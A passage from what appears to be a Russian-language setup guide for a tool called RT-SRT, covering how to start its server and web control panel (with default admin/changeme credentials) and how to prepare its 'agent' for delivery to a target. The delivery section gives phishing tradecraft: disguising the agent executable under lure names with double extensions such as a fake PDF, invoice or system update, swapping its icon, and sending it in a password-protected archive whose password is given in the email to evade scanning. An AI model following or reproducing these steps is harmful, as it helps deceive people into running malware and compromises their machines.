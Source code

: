 #### Windows:
```cmd
cd RT-SRT\server

REM Активировать Python окружение
venv\Scripts\activate

REM Запустить сервер
python src\web_panel\app.py

REM Или через uvicorn для production
uvicorn src.web_panel.app:app --host 0.0.0.0 --port 8000
```

### 4.2 Проверка работы сервера
```bash
# Открыть браузер и перейти на:
http://localhost:8000

# Или проверить через curl:
curl http://localhost:8000/api/health

# Должен вернуть:
{"status": "healthy", "version": "1.0.0"}
```

### 4.3 Доступ к панели управления
```
URL: http://localhost:8000
Логин: admin
Пароль: changeme

⚠️ ВАЖНО: Смените пароль после первого входа!
```

---

## 🎯 Часть 5: Подготовка агента для доставки

### 5.1 Маскировка агента
```bash
# Переименовать агент чтобы выглядел безопасно
cp dist/rt_srt_agent "Важный документ.pdf.exe"
cp dist/rt_srt_agent "Счет на оплату.docx.exe"  
cp dist/rt_srt_agent "Обновление системы.exe"
cp dist/rt_srt_agent "Фотографии отпуска.exe"

# Изменить иконку (Windows)
# Используйте Resource Hacker или подобные инструменты
```

### 5.2 Создание архива с паролем (рекомендуется)
```bash
# Создать ZIP архив с паролем
zip -P infected "Документы.zip" "Важный документ.pdf.exe"

# Или 7-Zip (Windows)
7z a -pinfected "Документы.7z" "Важный документ.pdf.exe"

# Пароль "infected" объясните цели в письме:
# "Файл защищен паролем: infected"
```
